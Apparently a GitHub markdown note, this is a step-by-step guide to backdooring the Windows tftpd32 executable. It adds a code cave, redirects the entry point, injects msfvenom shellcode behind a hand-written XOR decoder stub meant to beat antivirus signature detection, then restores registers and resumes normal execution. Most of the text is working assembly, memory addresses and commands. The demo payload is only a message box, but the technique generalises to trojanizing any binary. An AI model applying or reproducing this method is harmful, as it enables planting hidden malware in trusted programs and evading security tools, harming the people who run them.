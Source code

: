 # Basic Signature bypass (e.g. tftp32d.exe) (the old version 272)
# XOR encode is not a good option since the AV can detect (some of) obfuscations
# adding time delay may be able to bypass Signature detection

## Preparation (if the code cave is limited)
### 1. Use LordPE to add a code cave, edit code cave (e.g. 1000 hex size) to be executable
### 2. Add none byte (1000 hex size) by hex editor
```
.rtext code cave
Memory map, item 29
 Address=0046C000
 Size=00001000 (4096.)
 Owner=tftpd32  00400000
 Section=.rtext
 Type=Imag 01001002
 Access=RWE CopyOnWr
 Initial access=RWE

start: 0046C000
end  : 0046D000
```
### 3. check usable small code cave (e.g. .text section)
```
.text code cave
start: 004317E3
end  : 004317FF
size : 1C
```

## 1. Save a backup (take notes) for the Entry Point before program start
```
0041309C > $ E8 E3020000    CALL tftpd32.00413384
004130A1   .^E9 7AFEFFFF    JMP tftpd32.00412F20
004130A6  /$ 55             PUSH EBP
004130A7  |. 8BEC           MOV EBP,ESP
004130A9  |. A1 44B64300    MOV EAX,DWORD PTR DS:[43B644]
```
## 2. Edit CALL tftpd32.004228F5 --> JMP 004317E3 , Jump to small code cave first

## 3. Save registers & flags
```
pushad
pushfd
push eax * 8 (if need)
```
- Remark the ESP address after pushfd for further actions
- push eax * 8 for avoiding stack changing by shellcode

## 4. Generate shellcode (should add EXITFUNC=none)
```
msfvenom -a x86 --platform windows -p windows/messagebox TEXT="POWERUP" -b '\x00\x0a\x0d' --encrypt xor --encrypt-key riverbed -f hex EXITFUNC=none
```

# 5. encode shellcode (xor, also for decoding)
```
push EBX                             # save ebx original value
MOV EAX,0046C010                     # save starting address of shellcode address to eax
MOV EBX,42                           # declare a magic number you like, e.g. 42
XOR BYTE PTR DS:[EAX],BL             # xor magic number and shellcode in stack
INC EAX                              # increas the address position
INC EBX                              # change the ebx value
CMP EAX,0046C116                     # check if eax reached the end of shellcode
JLE SHORT 004317EE                   # jmp back to xor if eax doesnt reach the button of shellcode
POP EBX                              # get ebx original value back
JMP 0046C000                         # jmp to shellcode (for execution)

```

## 6. Calculate of ESP original address after shellcode executed
- after pushfd esp=0012FFA0
- after run shellcode esp=0012FF54
`A0 - 54 = 4C`

## 7. Back to original address
```
ADD esp,04C
popfd
popad
CALL 00413384
JMP 004130A1
```
